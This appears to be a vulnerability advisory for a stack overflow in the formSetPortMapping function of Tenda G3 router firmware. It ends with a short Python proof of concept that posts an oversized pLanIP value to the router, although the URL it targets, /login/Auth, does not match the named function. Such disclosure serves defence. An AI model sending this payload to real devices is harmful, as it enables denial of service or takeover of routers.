 # Tenda G3 formSetPortMapping
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetPortMapping function.
### Vulnerability details
Stack-based buffer overflow in function formSetPortMapping on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetPortMapping line 39, it reads in a user-provided parameter, and the variable pLanIP is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetPortMapping-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/login/Auth'
payload = {
    "pLanIP": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
